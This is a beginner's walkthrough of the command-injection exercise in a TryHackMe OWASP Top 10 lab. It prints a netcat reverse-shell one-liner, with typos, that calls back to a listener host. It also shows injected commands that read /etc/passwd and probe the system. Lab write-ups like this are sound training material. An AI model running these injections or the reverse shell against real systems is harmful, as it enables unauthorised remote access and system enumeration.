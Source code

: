 ﻿# Write-Up for OWASP top 10 - tryhackme 

## [day 1] command injection practical

Hi Guys!
This is my very first Walkthrough/Write-Up. that will be in [OWASP Top 10](https://tryhackme.com/room/owasp10#) from [tryhackme](https://tryhackme.com) which is designed for the beginners in cyber security or who is interesting in pentesting I hope you find it useful 


#### [What strange text file is in the website root directory](#1-What-strange-text-file-is-in-the-website-root-directory)
#### [How many non-root/non-service/non-daemon user are there?](#-How-many-non-root/non-service/non-daemon-users-are-there?)
#### [what user is this app running as?](#3)
#### [what is the user's shell set as?](#4)
#### [what version of Ubuntu is running?](#5)
#### [print out the MOTD. what favorite beverage is shown](#6)

by entering the website associated with the IP, we will have a directory search page asking the user to enter a user by entering a random user the page will give an error message 

![error](imgs/eroor.PNG)



but if i enter "root" the page will print a message with success

![suess](imgs/success.PNG)



so now i will try yo inject it with a username and  command "root;ls"

![test1](imgs/test1.PNG)


the message was success but with no output of the command this could indicate for a blind injection or the server is not vulnerable to command injection let's try in the recommended page < machine IP >/evilshell.php, this page ask the user to enter an command so let's try ls again without the username 

![#1](imgs/#1.PNG)


the output of the command will appear under the **"submit"** button so now we can start here 

you can present the output of the command in two ways one is in the web page but it will be out of order so we can upload revers shell and connected using netcat 
the command to upload the revers shell 
>rm /tmp/f;mkfifo /tmp/f;cat /tp/f|bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

make sure to change the IP and run this command in your terminal to listen 
> nc -lvnp 1234 

to see more ways to revers shell [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/revers-shell-cheat-sheet)
refresh the page and check your terminal you can execute the same command down there   
###  #1 What strange text file is in the website root directory
we start by showing the files by 
>ls 

maybe it seems to be normal to see  file extensions like (.doc, .txt, .pdf ,etc) on your PC but it is odd to see it in a web page, web page could have (css , .php extension , .js extension) 

![#1](imgs/1.PNG)


### #2 How many non-root/non-service/non-daemon users are there? 
by executing 
> cat /etc/passwd 

![#2i](imgs/2.PNG)


will print all the user and you can find out  by looking for user with login 
the users with nologin are the (root, services, daemon) users 

### #3 	What user is this app running as?
this one is a straight foreword  by executing
> whoami

![#3i](imgs/3.PNG)


the username will be printed 
### #4  What is the user's shell set as?
the answer of this question will be printed with question 2 with the command 
>cat /etc/passwd

![#4i](imgs/2.PNG)


### #5 What version of Ubuntu is running?
I tried the suggested command 
>uname -a 

![#5.1](imgs/5.1.PNG)


but it doesn't show the version of Ubuntu so i used 
>  lsb_release -a

![#5.2](imgs/5.2.PNG)


### #6 print out the MOTD. what favorite beverage is shown?
the MOTD stands for message of the day can be configured in the /etc directory but we want to print we have 13 message but the hint pointing to  00-header so let print it 
>cat /etc/update-motd.d/00-header 

in the end of the file the mention a type of drink 
![#6i](imgs/6.PNG)


thanks 


